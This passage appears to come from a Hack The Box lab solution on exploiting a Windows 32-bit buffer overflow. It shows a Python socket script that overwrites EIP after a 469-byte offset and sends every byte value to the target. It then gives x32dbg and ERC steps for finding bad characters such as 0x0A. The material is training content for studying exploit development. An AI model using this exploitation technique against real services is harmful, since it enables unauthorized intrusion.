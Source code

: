 ```python
    0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
    0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
    0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
    0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
    0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
    0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
    0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
    0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
    0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
    0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
    0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
    0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
    0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
    0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
    0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
    0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
    0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
    0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF])
    offset = 469
    buffer = b"A" * offset
    EIP = b"B" * 4
    payload = buffer + EIP + characters
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

badCharacters()
```

![[HTB Solutions/Others/z. images/40b6d04d1f5e6fa38a9c6bee385ff01d_MD5.jpg]]

Within `x32dbg`, students need to click the `Reset` button so that it closes the crashed `win32bof` binary and run it again. Subsequently, students need to run the Python script, to then compare the input in memory to all characters using `ERC`. First, students need to copy the address of `ESP`, which is `00DBFB48`:

![[HTB Solutions/Others/z. images/1390724aec60288550cc15247dc68c57_MD5.jpg]]

Then, students need to use the `--compare` option of `ERC` on the `ESP` address and the location of the `.bin` file that contains all characters generated earlier (most importantly not the one that includes `0x00`, if students are using the same connection to the Windows VM without reset, the file name will be `ByteArray_2.bin` instead of `ByteArray_1.bin`):

Code: powershell

```powershell
ERC --compare 00DBFB48 C:\Users\htb-student\Desktop\ByteArray_1.bin
```

Students will notice that `A` (i.e., `0x0A`) is a bad character since it truncated the rest of the input:
